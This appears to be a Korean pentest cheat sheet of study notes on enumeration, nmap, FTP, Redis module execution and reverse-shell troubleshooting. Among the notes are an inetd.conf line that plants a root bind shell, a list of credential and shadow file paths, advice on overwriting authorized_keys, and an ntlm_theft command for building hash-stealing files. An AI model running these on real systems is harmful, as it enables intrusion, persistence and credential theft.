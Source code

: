 - `config` 파일을 먼저 `find`로 모두 찾아본 뒤에 패스워드 혹은 해시가 적혀 있는지 확인

- password reuse

- `curl` 헤더 확인

- 사이트 제목 및 내용 확인

- `/var/mail`에 있는 내용 확인
- github에서 `"$pass"`로 pass 변수 찾기
---
# windows ssh file location
```powershell
C:\Users\<Username>\.ssh
```
---
# 리버스 셸 연결이 안될 때
- nc/bash/python3 등 리버스 연결이 되지 않는다면 elf 파일 혹은 exe 파일을 만들어서 전달해서 실행시켜보기.
- 리스닝 포트를 well knwon 포트(80,443 등)로 바꿔서 받아보기.

---
# inetd.conf(옛날 리눅스 환경)
```bash
echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf"
```

- 31337번 포트로 바인드 셸 연결

---
# NMAP
```bash
sudo nmap --scrip vuln <ip>
```
- 취약점을 찾기 어려울 때 nmap 실행해서 확인
- /etc/hosts에 등록하고 난 뒤에 nmap 한번 더 실행해주기.

```bash
sudo nmap -Pn <ip>
```
- ping 테스트가 안되더라도 서버가 열려있을 수 있으니 확인
---
# FTP
- `ls -al`로 숨겨진 파일 확인 가능.
- dir 안될 때 `passive` 입력해서 만들어주기.
- 업로드가 가능한지 확인
---
# Interesting File Path
```bash
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
~/home/user/.bash_history

/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/httpd/access_log
/var/log/apache/error.log
/var/log/apache2/error.log
/var/log/httpd/error_log
/var/log/messages
/var/log/cron.log
/var/log/auth.log

/var/www/html/wp-config.php <-- Wordpress
/var/www/configuration.php <-- Joomla
/var/www/html/inc/header.inc.php <-- Dolphin
/var/www/html/sites/default/settings.php <-- Drupal
/var/www/configuration.php <-- Mambo
/var/www/config.php <-- PHP
```
```powershell
C:/Windows/System32/drivers/etc/hosts
C:/Windows/Panther/Unattend/Unattended.xml
C:/Windows/Panther/Unattended.xml
C:/Windows/Panther/Unattend.txt
C:/Unattend.xml
C:/Autounattend.xml
C:/Windows/system32/sysprep

C:/inetpub/wwwroot
C:/inetpub/wwwroot/web.config
C:/inetpub/logs/logfiles
```
---
# Redis modules execute command
<img width="811" height="496" alt="image" src="https://github.com/user-attachments/assets/0426a9b3-32af-41ba-9bdf-e3585a712089" />

- https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
- https://github.com/n0b0dyCN/redis-rogue-server
---
# redis-cli
```bash
redis-cli -h <ip>
```
---
# SSH
- authorized_keys를 변경할 수 있으면 변경
---
# Make ODT File(Libre Office)
- https://github.com/0bfxgh0st/MMG-LO
---
# glassfish important file location
```bash
glassfish4/glassfish/domains/domain1/config/admin-keyfile and
glassfish4/glassfish/domains/domain1/config/local-password
```
---
# dosbox
- GUI 상태에서 정상 작동
---
# Create malicious Windows file
```bash
python3 ntlm_theft.py -g lnk -s <ip> -f vault
```
- https://github.com/Greenwolf/ntlm_theft
